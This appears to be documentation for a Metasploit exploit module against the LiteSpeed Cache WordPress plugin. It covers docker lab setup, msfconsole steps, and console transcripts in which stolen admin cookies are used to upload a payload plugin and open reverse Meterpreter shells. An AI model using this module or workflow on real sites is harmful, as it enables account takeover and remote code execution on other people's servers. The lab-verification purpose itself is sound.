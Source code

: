## Vulnerable Application
This module exploits an unauthenticated account takeover vulnerability in LiteSpeed Cache, a Wordpress plugin that currently
has around 6 million active installations. In LiteSpeed Cache versions prior to 6.5.0.1, when the Debug Logging
feature is enabled, the plugin will log admin cookies to the /wp-content/debug.log endpoint which is accessible
without authentication. The Debug Logging feature in the plugin is not enabled by default. The admin cookies
found in the debug.log can be used to upload and execute a malicious plugin containing a payload.

### Setup
Spin up a WordPress container with the following docker-compose file:
```yml
version: '3.8'

services:
  db:
    image: mysql:latest
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_password
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress_user
      MYSQL_PASSWORD: example_password

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress_user
      WORDPRESS_DB_PASSWORD: example_password
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
```

Download, install and activate the vulnerable LiteSpeed Cache plugin: https://downloads.wordpress.org/plugin/litespeed-cache.6.3.zip
Once installed a LiteSpeed menu bar item should appear on the left hand side of the application. When clicked a drop down
should appear. Select "ToolBox", then select "Debug Settings". Then switch the "Debug Log" feature to "On".

Sign out of WordPress and when you reauthenticate your admin cookie will be logged to /wp-content/debug.log

## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/wp_litespeed_cookie_theft`
1. Set the `RHOST`, `LHOST` and `RPORT`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress site.

## Scenarios
### ARCH_PHP Target - LiteSpeed Cache 6.3 - WordPress 6.4.3

```
msf exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qSNzhabMTP/OiDynMUetY.php...
[*] Sending stage (39927 bytes) to 192.168.1.67
[+] Deleted OiDynMUetY.php
[+] Deleted qSNzhabMTP.php
[+] Deleted ../qSNzhabMTP
[*] Meterpreter session 7 opened (192.168.1.67:4444 -> 192.168.1.67:64935) at 2024-09-11 23:18:14 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 29292f368fe3
OS          : Linux 29292f368fe3 6.10.4-linuxkit #1 SMP PREEMPT_DYNAMIC Mon Aug 12 08:48:58 UTC 2024 x86_64
Meterpreter : php/linux
```

### ARCH_CMD Target - LiteSpeed Cache 6.3 - WordPress 6.4.3

```
msf exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/IVStOPtwuq/WvXecICkgw.php...
[*] Sending stage (3045380 bytes) to 192.168.1.67
[+] Deleted WvXecICkgw.php
[+] Deleted IVStOPtwuq.php
[+] Deleted ../IVStOPtwuq
[*] Meterpreter session 6 opened (192.168.1.67:4444 -> 192.168.1.67:64884) at 2024-09-11 23:14:49 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.22.0.3
OS           : Debian 12.5 (Linux 6.10.4-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

